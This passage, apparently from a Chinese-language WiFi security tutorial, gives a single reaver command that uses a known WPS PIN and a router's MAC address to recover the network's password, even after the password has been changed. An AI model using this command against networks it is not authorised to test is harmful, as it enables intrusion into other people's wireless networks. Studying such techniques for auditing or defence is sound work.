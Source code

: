 ![](resources/2023-07-12-15-49-16.png)

##### 已经知道PIN码后

```shell
# 获取到 PIN码 后，以后即便路由器更换了密码，我们也可以很迅速地通过 PIN码 重新获得WiFi密码
reaver -i wlan0mon -b [路由器的mac地址] -p [PIN码]
```
